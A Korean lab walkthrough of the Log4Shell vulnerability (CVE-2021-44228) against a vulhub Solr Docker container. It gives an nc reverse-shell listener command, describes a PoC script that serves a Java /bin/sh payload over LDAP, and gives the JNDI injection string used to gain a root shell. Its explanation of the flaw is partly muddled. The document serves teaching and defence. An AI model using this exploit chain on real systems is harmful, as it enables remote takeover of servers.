

# CVE-2021-44228

**Contributors**
<br/>
[최승용(@yyyy7246)](https://github.com/yyyy7246)

### 취약점 관련 이야기
CVE-2021-44228는 Java 기반 로깅 라이브러리인 Apache Log4j에서 발견된 제로 데이 취약점<br/>
식별되며 CVSS(Common Vulnerability Scoring System)의 심각도 점수는 10점 만점에 10점(CVSS v3.1)임<br/>
이 취약점으로 인하여 오픈소스 보안위협과 공급망 보안에 대한 관심과 중요도가 높아졌음<br/>

### 취약점 설명
Log4j는 외부에서 제공된 구성 파일을 사용하여 로그 메시지를 처리하는데, 이 구성 파일은 XML 또는 프로퍼티 형식으로 작성됨.</br></br>

이 취약점은 Log4j가 구성 파일을 로드할 때 JNDI(Java Naming and Directory Interface) 기능을 사용하는데 이 과정에서 발생함. 공격자는 특정한 JNDI URL을 포함한 악의적인 로그 메시지를 전송하여, 애플리케이션에서 Log4j를 사용하는 경우 해당 로그 메시지를 처리하는 과정에서 원격 코드 실행이 가능해짐.</br></br>

이를 통해 공격자는 애플리케이션의 권한과 동일한 권한으로 원격에서 임의의 코드를 실행할 수 있으며 따라서 공격자는 시스템을 제어하거나 중요한 데이터에 접근할 수 있음</br></br>


### 환경 설정
VMworkstaion 16.1.2<br/>
kali-linux-2023.3 -amd64<br/>
<br/>
칼리 리눅스 위에 도커를 띄우고 로컬에서 poc를 실행하고 도커의 쉘을 따는 것을 목표로 함.
<br/>
https://drive.google.com/file/d/1q4emtQqYQDpROpmu0799lSwII1UItKcv/view?usp=drive_link<br/>
위 링크에서 다운받으면 같은 환경에서 실습할 수 있음<br/>


### POC
https://log4shell.tools/<br/>
가장 먼저 위 사이트에서 log4j 취약점이 있는지 테스트를 할 수 있음.<br/>
입력값이 log4j를 통해 기록되는 부분이 있으면 입력값으로 사이트에서 주어진 페이로드를 붙여넣으면 확인 가능함.<br/>
<br/>
이제 취약점을 확인하였고 실제 익스플로잇을 하기 위해 터미널을 3개 열어야 함.<br/>
<br/>
위 환경 기준으로<br/>
<br/>
1번 터미널을 열고 <br/>
```
nc -nvlp 9001
```
설명 : 리버스 쉘 연결을 위해서 netcat을 열었음.<br/>
<br/>
2번 터미널<br/>
```
sudo docker run --rm --network host vulhub/solr:8.11.0
```
설명 : vulhub의 도커파일을 실행.<br/>
<br/>
3번 터미널<br/>
```
cd ~/Downloads/log4j/poc
python poc.py
```
설명 : poc 코드를 실행함.(디폴트 값으로 실행되어 python poc.py --userip 192.168.0.1 --webport 8080 --lport 9002 와 같음)<br/>
<br/>
1. ```generate_payload(userip: str, lport: int) -> None : ```
입력된 IP와 포트를 이용하여 Java 페이로드를 생성. 생성된 페이로드는 Exploit.java라는 파일로 저장됨.
Exploit.Java은 소켓을 생성하여 지정된 IP와 포트로 연결을 요청하고, 이 연결을 통해 /bin/sh 쉘을 실행. 이렇게 하면 공격자(칼리 로컬)의 시스템이 피해자(도커 환경)의 시스템에 연결을 요청하게 되며, 이 연결이 성공하면 공격자는 피해자의 시스템에서 쉘 명령어를 실행할 수 있음.
<br/><br/>
2. ```payload(userip: str, webport: int, lport: int) -> None : ```
generate_payload 함수를 호출하여 페이로드를 생성한 후, LDAP 서버를 설정하고, 웹 서버를 실행.
이렇게 하면 피해자의 시스템이 공격자의 시스템으로 연결을 요청하게 되며, 이 연결이 성공하면 공격자는 피해자의 시스템에서 쉘 명령어를 실행할 수 있음.
<br/><br/>
3. ```check_java() -> bool : ```
Java가 설치되어 있는지 확인후 Java가 설치되어 있지 않다면 False를 반환.
<br/><br/>
4. ```ldap_server(userip: str, lport: int) -> None : ```
LDAP 서버를 설정하고, 실행. 이 서버는 Exploit.java 코드를 제공하며, 피해자의 시스템이 이 코드를 다운로드하고 실행하도록 함.
<br/><br/>


<br/>
이후 작업<br/>
firefox 실행<br/>
localhost:8000 접속해서 directory listing 하고 있는 웹 서버 잘 돌아가고 있는지 확인<br/>
localhost:8089 접속해서 Core Admin -> name에 ${jndi:ldap://localhost:1389/a} 입력하고 Add Core 클릭<br/>
1번 터미널에서 쉘 따졌는지 확인 -> whoami 실행하면 root 나와야 함<br/>

<br/><br/>
#### 실습화면
1. 페이로드 입력<br/>
<br/>
2. 페이로드 삽입<br/>
<br/>
3. 리버스 쉘 연결 확인<br/>
<br/>
4. 도커의 루트인지 확인 (pwd의 결과가 /opt/solr/server)<br/>
<br/><br/><br/>


### 대처 방법(SBOM)
패치 및 업데이트를 하는 방법, 취약한 Log4j 구성을 제거하는 등 다양한 방법이 있는데 그 전에 수 많은 모듈들 속에서 SBOM을 사용하여 빠르게 취약점이 있는지 파악하는 것을 소개함.<br/>
<br/>
<br/>

### 결론 (3줄 요약)
Log4j 취약점은 애플리케이션 보안에 심각한 위협을 가지는 취약점으로 알려짐. <br/>
해당 취약점을 악용할 경우 원격 코드 실행이 가능해지며, 이는 중요한 데이터 유출이나 시스템 침해로 이어질 수 있음. <br/>
따라서, Log4j를 사용하는 애플리케이션에서는 가능한 빠른 시일 내에 최신 버전으로 업데이트하고, 관련된 보안 패치를 적용하는 것이 필요하며 이를 통해 보다 안전한 애플리케이션 운영을 할 수 있음.
